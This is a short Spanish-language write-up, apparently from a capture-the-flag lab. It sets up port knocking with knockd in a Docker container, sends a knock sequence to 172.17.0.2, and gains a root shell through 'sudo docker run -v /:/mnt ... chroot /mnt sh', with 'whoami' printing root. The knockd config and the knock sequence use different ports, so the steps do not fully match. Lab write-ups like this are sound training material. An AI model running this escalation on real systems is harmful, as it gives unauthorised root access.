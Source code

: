 #### 1. **Usando `knockd` dentro del contenedor**
**Dockerfile**:
```dockerfile
FROM ubuntu:latest  
RUN apt-get update && apt-get install -y knockd  
COPY knockd.conf /etc/knockd.conf  
CMD ["knockd", "-d"]  
```

Archivo **knockd.conf**
```bash
[options]  
    logfile = /var/log/knockd.log  

[openSSH]  
    sequence    = 7000,8000,9000  
    seq_timeout = 10  
    command     = /usr/sbin/iptables -A INPUT -s %IP% -p tcp --dport 22 -j ACCEPT  
    tcpflags    = syn  

[closeSSH]  
    sequence    = 9000,8000,7000  
    command     = /usr/sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT  
```

Sabiendo que la funcion **docker** nos proporciona unos puertos.
###  Explicación del comando `knock`
Este comando realiza **port knocking** hacia la IP `172.17.0.2` (contenedor Docker) usando una secuencia específica de puertos.
1. **`knock`**: Herramienta cliente para enviar "knocks"
2. **`-v`**: Modo verbose (muestra detalles en tiempo real)
3. **`172.17.0.2`**: IP objetivo (contenedor Docker)
4. **`12345 54321 24680 13579`**: Secuencia de 4 puertos a "tocar"
5. **`-d 1`**: Delay de 1 ms entre cada knock (opcional pero útil en redes locales)
```bash
knock -v 172.17.0.2 12345 54321 24680 13579 -d 1
```

Una ves ejecutando obtenemos el siguiente **output**
```bash
hitting tcp 172.17.0.2:12345
hitting tcp 172.17.0.2:54321
hitting tcp 172.17.0.2:24680
hitting tcp 172.17.0.2:13579
```

Ahora que hemos activado el servicio de **docker** podemos explotar el privilegio
```bash
# Comando para escalar al usuario: ( root )
sudo -u root /usr/bin/docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
whoami
root
```